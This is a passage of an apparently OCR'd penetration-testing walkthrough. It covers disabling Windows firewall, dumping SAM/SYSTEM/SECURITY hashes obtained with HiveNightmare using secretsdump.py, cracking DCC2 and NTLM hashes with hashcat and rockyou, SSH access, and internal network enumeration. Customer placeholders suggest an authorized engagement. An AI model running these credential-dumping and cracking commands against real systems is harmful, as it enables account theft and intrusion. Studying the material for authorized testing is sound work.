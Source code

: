 Enable port 22 on the firewall to allow SSH traffic

In the searchbar, search Firewall and click it.

Click Turn windows defender firewall off

make sure all of the firewall options are off.

On Kali Machine, Cracking the Passwords

We'll now go through the files HiveNightmare pulled and see if we can't get any password hashes.

cd "/home/kali/Desktop/tools/Service Pack"
python3 /home/kali/.local/bin/secretsdump.py -sam {SAM FILE} -system {SYSTEM FILE} -security {SECURITY FILE} LOCAL > IT.hash.raw ; cat IT.hash.raw



This should dump the hashes found from HiveNightmare, and we will begin to crack them.

For DCC2 hashes (Domain Cached Credentials 2)

cut -d ":" -f 2 IT.hash.raw | uniq > IT.DCC2
hashcat -m 2100 -a 0 IT.DCC2 /usr/share/wordlists/rockyou.txt -o DCC2.pass.IT --force --potfile-disable; cat DCC2.pass.IT

Trim the hashed passwords to be only unique with your favorite text editor (vi, nano, mousepad, etc)

the only lines should be the hashed passwords.

once this is run through hashcat, you can view the passwords

NTLM (Local hashes)

cut -d ":" -f 4 IT.hash.raw | uniq > IT.NTLM
hashcat -m 1000 -a 0 IT.NTLM /usr/share/wordlists/rockyou.txt -o NTLM.pass.IT --force --potfile-disable; cat NTLM.pass.IT

SSH to the IT machine

On Kali:

ssh <CUSTOMER USER>@<IA IP>

nslookup the Target domain for the next bloodhound target

nslookup orange.lan

Find and Enumerate internal networks

Show existing network routes

route print | more

We are looking for network blocks to begin scanning for hosts that are alive

Ping Sweep the discovered netblocks

Change the below net block of 192.168.0.0/24 to be whatever the actual routes show. If there are no routes, do the same subnet that the previous nslookups gave us.

OUT OF SCOPE IP ADDRESS BLOCKS:
